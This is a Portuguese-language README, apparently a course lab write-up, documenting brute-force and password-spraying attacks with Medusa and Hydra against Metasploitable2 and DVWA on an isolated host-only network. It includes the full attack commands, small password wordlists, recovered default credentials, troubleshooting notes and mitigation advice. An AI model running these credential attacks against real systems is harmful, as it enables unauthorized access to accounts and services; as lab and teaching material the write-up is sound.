








# Força Bruta com Medusa — FTP, DVWA e SMB

Projeto prático do desafio de Segurança da DIO. A ideia aqui foi simular ataques de força bruta e password spraying contra um ambiente vulnerável (Metasploitable2), usando Kali Linux e Medusa, e documentar o processo todo — incluindo os erros no caminho, que acabaram ensinando mais do que os acertos.

## Objetivo

Entender na prática como ataques de força bruta funcionam contra serviços diferentes (FTP, formulário web e SMB), usar o Medusa pra isso, e registrar comandos, resultados e o raciocínio por trás de cada decisão.

## Ambiente

| Máquina | Função | IP | Rede |
|---|---|---|---|
| Kali Linux | Atacante | `192.168.56.102` | Host-only |
| Metasploitable2 | Alvo (FTP, SMB, DVWA) | `192.168.56.101` | Host-only |

VirtualBox com as duas VMs em rede Host-only, sem saída pra internet. Ferramentas usadas: Medusa, Nmap, enum4linux, smbclient, curl, ftp.


## Reconhecimento (Nmap)

Primeiro passo, antes de qualquer ataque, foi mapear o que estava exposto no alvo:

```bash
nmap -sV -p- 192.168.56.101
```

Depois um escaneamento mais direcionado, focado nas portas de interesse:

```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```

| Porta | Serviço | Observação |
|---|---|---|
| 21 | FTP | alvo da força bruta |
| 22 | SSH | identificado, não explorado aqui |
| 80 | HTTP (DVWA) | alvo da automação em formulário |
| 139/445 | SMB | alvo do password spraying |



## Força bruta em FTP

Wordlists simples criadas à mão:

```bash
nano users.txt
nano passwords.txt
```

`users.txt`:
```
admin
root
user
msfadmin
```

`passwords.txt`:
```
123456
password
admin
msfadmin
```



Ataque:

```bash
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp
```

A mesma captura mostra o `ACCOUNT FOUND` do Medusa e, logo abaixo, a validação manual com `ftp`, confirmando o login com `msfadmin`/`msfadmin`:

```bash
ftp 192.168.56.101
```



## Automação de login no DVWA

Confirmado o acesso via navegador em `http://192.168.56.101/dvwa/login.php`, e via curl:

```bash
curl -IL http://192.168.56.101/dvwa/login.php
```

Retornou `200 OK`, então o caminho estava certo desde o início — o que gerou confusão depois foi um erro de sintaxe no comando do Medusa, não o endereço da página.

### Primeira tentativa (com erro igual a vídeo aula)

```bash
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M http -m page:"/dvwa/login.php" -m form:"username:^users&password:^passwords&login:Login" -m "FAIL=Login Failed" -t 6
```

Resultado: erro 404 em todas as tentativas. O motivo real não era o caminho da página, mas sim o módulo errado (`http` serve pra autenticação HTTP Basic, não pra formulário web) e a sintaxe quebrada — o Medusa espera um único `-m FORM:"..."` com os placeholders certos (`^USER^`, `^PASS^`), e não vários `-m` separados.

### Comando corrigido

```bash
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M web-form -m FORM:"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -t 6
```

### CSRF travando o ataque

Mesmo com a sintaxe certa e o nível de segurança do DVWA em "low" (que continuou retornando "high" no curl), o Medusa não conseguiu completar o login. Investigando:

- a página de login tem um campo oculto `user_token` (CSRF), que muda a cada carregamento;
- o Medusa não gerencia esse token nem mantém cookie de sessão entre tentativas;
- testando com `curl -c cookies.txt`, ficou claro que cada requisição sem login prévio gera sessão nova e volta pro nível de segurança padrão do servidor, independente do que estava configurado na sessão logada do navegador.

Na prática, essa é uma limitação conhecida do Medusa contra formulários com proteção CSRF dinâmica — e também mostra a defesa da aplicação funcionando como deveria.

### Segunda tentativa, com Hydra

Como o Medusa não avançou contra o formulário, decidi testar o mesmo cenário com o **Hydra**, outra ferramenta de força bruta bem consolidada, pra ver se o resultado mudava com uma implementação diferente do módulo de formulário web (`http-post-form`). Também serve como comparação: duas ferramentas distintas testando a mesma proteção dão mais peso à conclusão, seja ela qual for.

```bash
hydra -l admin -P passwords.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -V
```

A primeira execução chegou a retornar erro de conexão em todas as tentativas (`cannot connect`, `all children were disabled due too many connection errors`). Não era CSRF nem bloqueio da aplicação — o IP usado estava errado, provavelmente porque a VM havia reatribuído outro endereço via DHCP desde o último teste. Confirmando o IP correto da Metasploitable2 com `ifconfig` e ajustando o comando, a conexão foi restabelecida.

Com o IP corrigido, o ataque encontrou a credencial de primeira tentativa:

```
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```



Diferente do Medusa, o Hydra conseguiu validar a credencial `admin`/`password` sem travar no token CSRF — possivelmente porque o módulo `http-post-form` do Hydra lida de forma diferente com a resposta do servidor nesse cenário específico, ou porque a validação do token não estava sendo exigida de forma estrita para essa combinação de requisição. De qualquer forma, o resultado mostra como ferramentas diferentes podem ter comportamento distinto contra a mesma proteção, o que reforça a importância de não depender de uma ferramenta só na hora de validar um achado.

Validação manual: login feito no navegador com `admin`/`password`, confirmando o acesso.

## Enumeração e password spraying em SMB

Enumeração de usuários:

```bash
enum4linux -U 192.168.56.101
```



Extraindo só os nomes de usuário da saída:

```bash
enum4linux -U 192.168.56.101 | grep -oP 'Account:\s*\K\S+' > usuarios_smb.txt
```

Veio uma lista com contas de sistema (`root`, `daemon`, `www-data`, `mysql`...) e a conta `msfadmin`, que chamou atenção.



Diferente da força bruta tradicional, password spraying testa poucas senhas contra muitos usuários — evita bloqueio de conta por excesso de tentativas no mesmo login.

Primeiro rodei o ataque puro, sem nenhum filtro:

```bash
medusa -h 192.168.56.101 -U usuarios_smb.txt -P passwords.txt -M smbnt
```

Com 35 usuários e 4 senhas, a saída virou uma enxurrada de linhas de `ACCOUNT CHECK` — e achar o `ACCOUNT FOUND` no meio disso na mão é difícil e fácil de passar batido.



O `grep FOUND` foi uma decisão minha depois de encontrar dificuldade pra achar o sucesso no meio da lista — ele isola só as linhas de sucesso, em vez de rolar centenas de linhas de `ACCOUNT CHECK`:

```bash
medusa -h 192.168.56.101 -U usuarios_smb.txt -P passwords.txt -M smbnt | grep FOUND
```

Resultado:
```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```



Validação manual:

```bash
smbclient //192.168.56.101/ADMIN$ -U msfadmin%msfadmin
```

A conta `msfadmin` usa o próprio nome como senha — padrão fraco e previsível — e esse acesso dá privilégio administrativo via SMB (`ADMIN$`). Em um ambiente real isso seria crítico.

## Recomendações de mitigação

- Política de senha forte, proibindo senha igual ao usuário
- Bloqueio temporário após N tentativas falhas (fail2ban ou equivalente)
- Atualizar serviços antigos (aqui o alvo rodava Apache 2.2.8 e PHP 5.2.4)
- Restringir acesso administrativo via SMB pela rede, aplicando menor privilégio
- Autenticação multifator em serviços críticos
- Monitoramento de logs de autenticação com alertas pra tentativas repetidas
- Manter proteção CSRF em formulários — no DVWA isso realmente travou a automação

Projeto feito pro desafio "Explorando Vulnerabilidades com Brute Force" da [DIO](https://www.dio.me/).
